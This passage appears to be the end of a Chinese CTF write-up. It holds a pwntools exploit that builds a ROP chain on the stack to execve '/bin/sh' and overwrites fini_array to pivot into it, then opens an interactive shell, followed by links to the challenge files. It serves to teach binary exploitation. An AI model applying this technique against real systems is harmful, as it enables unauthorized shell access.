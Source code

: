 ```plain


#duan()
#布置栈上的内容为
#syscall('/bin/sh\x00',0,0)
write(esp,p64(rax))
write(esp+8,p64(0x3b)) 
write(esp+16,p64(rdi)) 
write(esp+24,p64(bin_sh))
write(esp+32,p64(rsi))
write(esp+40,p64(0))
write(esp+48,p64(rdx))
write(esp+56,p64(0))
write(esp+64,p64(syscall))

#结束程序循环，进入 ROP
write(fini_array,p64(leave_ret)+p64(ret))
'''
'''
p.interactive()
```

![](assets/1706254573-c1a690c3008373b105f447e452f0cfec.gif)xor.zip (0.91 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240125153445-3607447e-bb54-1.zip)

![](assets/1706254573-c1a690c3008373b105f447e452f0cfec.gif)Memory Monster II.zip (0.308 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240125153953-edeb4bd0-bb54-1.zip)
